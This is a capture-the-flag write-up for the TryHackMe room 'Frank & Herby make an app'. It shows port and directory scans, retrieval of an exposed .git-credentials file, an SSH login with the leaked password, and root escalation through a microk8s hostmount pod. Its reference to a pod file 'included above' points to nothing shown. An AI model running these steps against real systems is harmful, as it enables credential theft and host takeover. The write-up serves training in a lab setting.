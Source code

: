# Frank & Herby make an app|Writeup-TryHackMe|medium
 **this is a solution for Frank and Herby try again.... room on <font color="&#x1F4D8;">https://tryhackme.com</font>**  
 **URl: <font color="&#x1F4D8;"> https://tryhackme.com/room/frankandherby </font>**

# Task 1 "Frank & Herb Make an App!"
 # 1st question
 The question begins asking us what port with a web application listening is open on the machine.
 to know that we have to  run **rustscan** on the **machine_ip**  then we get a list of open ports 
 write the next line in your terminal to create the scan "rustscan -a machine_ip --ulimit 3000"
 **after we create the scan we found that:** 
````

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
10250/tcp open  ssl/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10255/tcp open  http     Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
25000/tcp open  ssl/http Gunicorn 19.7.1
31337/tcp open  http     nginx 1.21.3
32000/tcp open  unknown 

````
**If we look carefully there is only one port that fits what we need. Alternatively you can visit each of them in the browser until you find the one that connects.**

 # 2nd question
now we  will use gobuster to discover what other directories there  using the port number from 1st question
```` gobuster -e -u  $machine_ip:31337 -w -w /usr/share/wordlists/dirb/common.txt ````
**the output for that scan is:** 
````
http://machine_ip/.git-credentials
http://machine_ip/assets
http://machine_ip/css
http://machine_ip/index.html
http://machine_ip/vendor

````
the answer will be the first directory :**.git-credentials**
#3rd question
after that we will curl on the first ip address:````curl $machine_ip:31337/.git-credentials````
the output is ````http://frank:PASSWORD@192.168.100.50````
and these credentials allow us  access through SSH using this coomand ````ssh frank@$machine_ip````
after we access to the machine we will use the ````ls```` command to list all files in the machine 
after that  we have found two folders and one text file  **the flag will be in the text file**
# 4th question
 in this question we have to access using root 
 we may try to run ````sudo -l```` to see what frank can run as ````sudo```` with.
 unfortunately, frank is neither in the sudoers file nor the ````sudo```` group.
 but after some search i noticed that the trick of this room is There is microk8s on the machine used to deploy the app.
 now we  can list all the relevant deployments, pods etc. ````with microk8s kubectl get all````
````
frank@dev-01:~$ microk8s kubectl get pods
NAME                                READY   STATUS    RESTARTS   AGE
nginx-deployment-7b548976fd-77v4r   1/1     Running   2          11d
````
So we've found a running pod, but this doesn't give us the image definition used to build its containers - this requires another kubectl command to output the pod's configuration in yaml, revealing an image available at a local registry running on localhost:32000 :
````
frank@dev-01:~$ microk8s kubectl get pod nginx-deployment-7b548976fd-77v4r -o yaml
apiVersion: v1
kind: Pod
metadata:
  annotations:
    cni.projectcalico.org/podIP: 10.1.133.238/32
...snip...
spec:
  containers:
  - image: localhost:32000/bsnginx
    imagePullPolicy: Always
````
We can use this image in a revised version of the pod configuration file included above. Start by changing the "image" key of this file from "ubuntu:latest" to "localhost:32000/bsnginx" and save the resulting file as "exploit.yaml". We can now follow the exploit POC, applying the new pod definition to the cluster :
````
frank@dev-01:~$ microk8s kubectl apply -f exploit.yaml
pod/hostmount created
````
and now  create a shell session in the new container
````
frank@dev-01:~$ microk8s kubectl exec -it hostmount /bin/bash
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
root@hostmount:/# ls /opt/root/root
root.txt  snap
````
The root flag is at /opt/root/root/root.txt (i.e. /root/root.txt on the host machine).
